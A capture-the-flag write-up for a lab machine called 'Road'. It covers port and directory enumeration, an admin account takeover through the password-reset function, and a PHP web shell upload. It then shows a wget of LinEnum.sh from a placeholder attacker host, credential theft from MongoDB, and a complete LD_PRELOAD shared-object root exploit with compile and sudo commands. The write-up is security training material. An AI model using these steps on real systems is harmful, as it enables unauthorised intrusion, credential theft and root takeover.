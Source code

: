 
# Road - CTF Writeup

## Enumeration
- **nmap -sS -sV -Pn -oN nmap_result.txt 10.10.181.155**
```
# Nmap 7.95 scan initiated Tue May  6 18:35:20 2025 as: /usr/lib/nmap/nmap -sS -sV -Pn -oN nmap_result.txt 10.10.181.155
Nmap scan report for road.thm (10.10.181.155)
Host is up (0.26s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/.
# Nmap done at Tue May  6 18:35:47 2025 -- 1 IP address (1 host up) scanned in 27.03 seconds
```

- Discover web-content
```bash
dirsearch -u http://road.thm
```
```
# Dirsearch started Tue May  6 17:28:19 2025 as: /usr/lib/python3/dist-packages/dirsearch/dirsearch.py -u http://road.thm/

403   273B   http://road.thm/.ht_wsr.txt
403   273B   http://road.thm/.htaccess.bak1
403   273B   http://road.thm/.htaccess.orig
403   273B   http://road.thm/.htaccess.sample
403   273B   http://road.thm/.htaccess.save
403   273B   http://road.thm/.htaccess_extra
403   273B   http://road.thm/.htaccess_orig
403   273B   http://road.thm/.htaccess_sc
403   273B   http://road.thm/.htaccessBAK
403   273B   http://road.thm/.htaccessOLD
403   273B   http://road.thm/.htaccessOLD2
403   273B   http://road.thm/.htm
403   273B   http://road.thm/.html
403   273B   http://road.thm/.htpasswd_test
403   273B   http://road.thm/.htpasswds
403   273B   http://road.thm/.httr-oauth
403   273B   http://road.thm/.php
301   305B   http://road.thm/assets    -> REDIRECTS TO: http://road.thm/assets/
200   490B   http://road.thm/assets/
301   309B   http://road.thm/phpMyAdmin    -> REDIRECTS TO: http://road.thm/phpMyAdmin/
200     4KB  http://road.thm/phpMyAdmin/
200     4KB  http://road.thm/phpMyAdmin/index.php
403   273B   http://road.thm/server-status/
403   273B   http://road.thm/server-status
301   301B   http://road.thm/v2    -> REDIRECTS TO: http://road.thm/v2/
302    20KB  http://road.thm/v2/    -> REDIRECTS TO: /v2/admin/login.html
```

---

## Application Structure

### Authentication Mechanism

- **Register Page**: `/v2/admin/reg.php`  
  → POST to: `/v2/admin/logincheck.php`  
  → Redirects to: `/v2/admin/login.html`

---

## Application Functions

- `/v2/profile.php` – Displays and allows editing of:
  - `userid`
  - `useremail`
  - `userrole`
  - `profile image`

- `/v2/ResetUser.php` – Password reset functionality  
- Search for: `"Enter AWB/Waybill number"`  
- Wallet Balance  
- Contact Us  

---

## Objective: Remote Code Execution (RCE)

Since most functions were disabled except **file upload** and **ResetUser**, I focused on that.

- After creating an account

- Notice: Only admin has access to this feature. Please drop an email to admin@sky.thm in case of any changes.

![](images/unable-upload-without-admin.png)

Noted the email: **admin@sky.thm**  

Used the **password reset** functionality to perform **account takeover**.

![](images/account-tackover.png)
![](images/success-change-pass.png)

✅ Successfully took over the admin account.
![](images/done.png)

---

## Gained Shell

- Uploaded a file and renamed it to `test.php`
![](images/testfile1.png)
![](images/testfile2.png)

- Uploaded a malicious file **shell.php**
![](images/php-code.png)

- The path **v2/profileimages/** is used to display uploaded files, request to:
  **v2/profileimages/shell.php**
![](images/ok.png)
![](images/get-first-shell.png)

- Retrieved **user flag** from **/home/webdeveloper**
![](images/user-flag.png)

---

## Privilege Escalation to Root

### 1. Enumerated the system using LinEnum.sh

```bash
cd /tmp
wget http://<your-IP>:<port>/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh
```

- Noticed **mongo** DB running on 127.0.0.1:27017
![](images/mongo-open.png)

- Executed **mongo** on the shell, and yes, it was accessible
![](images/poc-mongo.png)

- Show databases using: `show dbs`
![](images/dbs.png)

- Backup may contain sensitive data, so I accessed it:
```bash
use backup
show tables
db.collection.find()
```

- Got **webdeveloper** password and used it for SSH login
![](images/user-to-ssh.png)

- SSH login: `ssh webdeveloper@<ip>` and entered the password
![](images/gain-full-access-webdeveloper.png)

- Checked permissions to escalate into root:
```bash
sudo -l
```
![](images/see-permissions.png)

- Saw that **env_keep+=LD_PRELOAD** was allowed; can exploit this to get root

- Created `shell.c` with the following code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

- Compiled using:
```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

- Executed:
```bash
sudo LD_PRELOAD=/tmp/shell.so /usr/bin/sky_backup_utility
```

![](images/root-flag.png)
**Yes, got root access!**